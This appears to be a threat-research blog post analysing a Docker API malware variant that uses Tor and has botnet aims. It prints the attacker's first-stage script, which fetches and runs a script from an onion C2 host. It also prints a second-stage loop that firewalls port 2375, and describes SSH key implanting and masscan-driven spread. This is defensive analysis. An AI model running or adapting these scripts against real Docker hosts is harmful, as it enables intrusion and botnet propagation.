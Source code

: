 ```yaml
---
title: "Docker API Malware Variant with Botnet Capabilities"
date: 2025-09-10
draft: false
tags: ["docker", "malware", "tor", "api", "threat-hunting"]
---
```


### Initial Exploitation

The attackers start by sending an initial HTTP request to a Docker remote API server to create a new container. In this case, the Akamai Threat Hunting team used the Beelzebub honeypot to discover this threat. The attacker then creates a new container image running Alpine Linux that mounts the host's filesystem and executes a base64-encoded script.

### Script executed

```bash
apk update && apk add curl tor && tor & \
while ! curl -fs --proxy socks5h://localhost:9050 https://checkip.amazonaws.com; do sleep 10; done; \
curl -fs --proxy socks5h://localhost:9050 http://wtxqf54djhp5pskv2lfyduub5ievxbyvlzjgjopk6hxge5umombr63ad[.]onion/static/docker-init.sh | sh
```

The script installs "curl" and "tor", then starts a Tor daemon "tor&amp;", and attempts to obtain the public IP address of the victim by looping through every 10 seconds until the IP is requested through the Tor proxy (curl -fs --proxy&nbsp;socks5h://localhost:9050 https://checkip.amazonaws.com; do sleep 10; done;). The attacker is using a SOCKS5 proxy locally to send data to the Tor daemon, which then gets sent to the Tor network and then to the ".onion" C2. The attacker uses this C2 to pull their next-stage script (docker-init.sh) and execute it (curl -fs --proxy socks5h://localhost:9050 http://wtxqf54djhp5pskv2lfyduub5ievxbyvlzjgjopk6hxge5umombr63ad[.]onion/static/docker-init.sh).

Second Stage: docker-init.sh

This script attempts to block access to the Docker API port (2375) using whichever firewall utility it finds:
```sh
PORT=2375
PROTOCOL=tcp

for fw in firewall-cmd ufw pfctl iptables nft; do
  if command -v "$fw" >/dev/null 2>&1; then
    case "$fw" in
      firewall-cmd)
        firewall-cmd --permanent --zone=public \
          --add-rich-rule="rule family='ipv4' port port='${PORT}' protocol='${PROTOCOL}' reject"
        firewall-cmd --reload
        ;;
      ufw)
        ufw deny "${PORT}/${PROTOCOL}"
        ufw reload
        ;;
      pfctl)
        echo "block drop proto ${PROTOCOL} from any to any port ${PORT}" | pfctl -a custom_block -f -
        ;;
      iptables)
        iptables -I INPUT 1 -p "${PROTOCOL}" --dport "${PORT}" -j DROP
        ;;
      nft)
        if ! nft list tables | grep -q "inet"; then
          nft add table inet
          nft add chain inet filter { type filter hook input priority 0 \; }
        fi
        nft add rule inet filter input "${PROTOCOL}" dport "${PORT}" drop
        ;;
    esac
    break
  fi
done
```

The docker-init.sh script first adds the attacker's public key under the SSH authorized public keys (/root/.ssh/authorized_keys) and installs tools for propagation, persistence, and evasion, like masscan (internet-scale port scanner), libpcap (capture network data), libpcap-dev, zstd (decompress payloads), and torsocks (reroute IP traffic from CLI to Tor). The script also creates a cron job that executes every minute and iterates over multiple firewall utilities to block access to port 2375 (used by Docker API).

The attacker then sends an HTTP POST request back to the .onion C2 server to let the attacker know that the compromise was successful. Once this communication is established, the attackers download a binary from another Tor site onto the victim. This binary includes a dropper that contains the content it wants to drop, preventing it from communicating with the internet. The dropper drops a file (dockerd) that executes a masscan that searches for other open Docker API open ports (2375), and if it finds one, it will go through the same container creation process. The attacker's primary goal, which was not seen by earlier variants of the malware, is an initial version of a complex botnet, but the researchers have not found a complete version of it so far.

> Takeaways: Expose as few services as possible to the internet and isolate your Docker network from other parts of your network.

## References

- [BleepingComputer — Hackers hide behind Tor in exposed Docker API breaches](https://www.bleepingcomputer.com/news/security/hackers-hide-behind-tor-in-exposed-docker-api-breaches/)  
- [Akamai — Off Your Docker: Exposed APIs Are Targeted in New Malware Strain](https://www.akamai.com/blog/security-research/new-malware-targeting-docker-apis-akamai-hunt)  
- [Trend Micro — Tor-enabled Docker exploit](https://www.trendmicro.com/en_fi/research/25/f/tor-enabled-docker-exploit.html)  